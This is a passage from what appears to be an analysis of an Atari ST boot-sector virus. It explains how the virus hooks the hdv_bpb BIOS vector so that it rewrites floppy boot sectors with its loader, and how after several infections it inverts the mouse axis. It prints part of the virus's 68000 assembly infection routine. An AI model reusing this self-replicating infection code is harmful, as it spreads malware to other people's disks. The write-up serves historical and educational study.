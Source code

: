 ```asm
            RTS 
```

In detals, it:

 1. sets the magic value `RESVEC_MAGIC`in `RESVEC_ENA` (`0x426`) to enable the reset vector
 1. gets the default hdv_bpb vector address and stores it in `HDV_HPB_JMP_ADDR`
 1. replace the hdv_bpb vector address by `HDV_HPB_VECTOR`

#### The new hdv_bpb vector

As set in `HDV_BPB` here is the new hdv_bpb vector which is the heart of the virus. As mentionned before it is excecuted each time the BIOS function Getbpb(). In short:

```
BPB *Getbpb( dev )
WORD dev;
Getbpb() returns the address of the current BPB (Bios Parameter Block) for a mounted device.

- OPCODE: 7 (0x07)
- AVAILABILITY: All TOS versions.
- PARAMETERS: dev specifies the mounted device (‘A:’ = 0, ‘B:’ = 1) .
- BINDING 
    move.w dev,-(sp)
    move.w #$07,-(sp)
    trap #13
    addq.l #4,sp
    Getmpb() – 3.31
- RETURN VALUE:  Getbpb() returns a pointer to the device’s BPB. The BPB is defined as follows:
    typedef struct
    {
        WORD recsiz; /* bytes per sector */
        WORD clsiz; /* sectors per cluster */
        WORD clsizb; /* bytes per cluster */
        WORD rdlen; /* sector length of root directory */
        WORD fsiz; /* sectors per FAT */
        WORD fatrec; /* starting sector of second FAT */
        WORD datrec; /* starting sector of data */
        WORD numcl; /* clusters per disk */
        WORD bflags; /* bit 0=1 - 16 bit FAT, else 12 bit */
    } BPB
```

So each time an application or the GEM needs to read the disk information, this function is called... and so the virus routine.
The code is detailled but in brief, here is what happens, the routine reads and buffers the bootsector, copy the `Loader` on top of it, patchs it to make it executable and writes it back.

Each time it happens, a counter is incremented. And if the counter reaches 5 (starting from -5 the first time), the routine will retrieve the `mousevec` vector and then usse it to call the `initmouse` XBIOS function which has an option to inverse the mouse vertical axis.

```asm
HDV_HPB_VECTOR:
            MOVE.W    4(sp),D0                          ; hdv_bpb vector
            CMP.W     #2,D0                             ; if dev is nto A or B (>=2), do to original vector
            BGE       HDV_HPB_ORIGINAL_VECTOR           ; else
            MOVEM.L   A0-sp/D7/D1-D5,-(sp)              ; duplicate bootloader
            MOVE.W    D0,D7                             ; D7 contains A or B (0 or 1)
            MOVE.L    #(0 << 16 | 1),-(sp)              ; count: 1 | side: 0
            MOVE.L    #(1 << 16 | 0),-(sp)              ; track: 0 | sector: 1
            MOVE.W    D7,-(sp)                          ; dev, D7 contains A or B (0 or 1)
            CLR.L     -(sp)                             ; rsrvd => 0
            LEA       BOOTSECT_BUF.W,A5           
            MOVEA.L   (A5),A5                           ;  
            MOVEA.L   A5,A6                             ; 
```